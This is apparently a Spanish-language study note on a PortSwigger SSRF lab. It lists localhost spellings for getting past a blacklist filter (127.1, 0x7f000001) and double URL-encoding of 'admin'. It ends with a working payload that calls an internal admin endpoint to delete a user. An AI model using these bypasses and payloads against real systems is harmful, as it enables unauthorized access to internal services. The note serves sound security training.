 Tags: #SSRF #PortSwigger 

# Lab 3 SSRF with blacklist-based input filter 

```bash 
# Formas de colocar el localhost, por si existe un filtro en el localhost 
1. localhost
2. 127.0.0.1
3. 127.1
4. 0x7f000001   --> Hexadecimal 

# Miramos que hay un segundo filtro en la palabra 'admin'
# Podemos hacer URLencode con 'Ctrl + u' 
a = %61
% = %25    # Debemos de URLencodear el primer porcentaje, ya que si no, nos marcaria error 

admin = %2561dmin

stockApi=http://127.1/%2561dmin/delete?username=carlos
```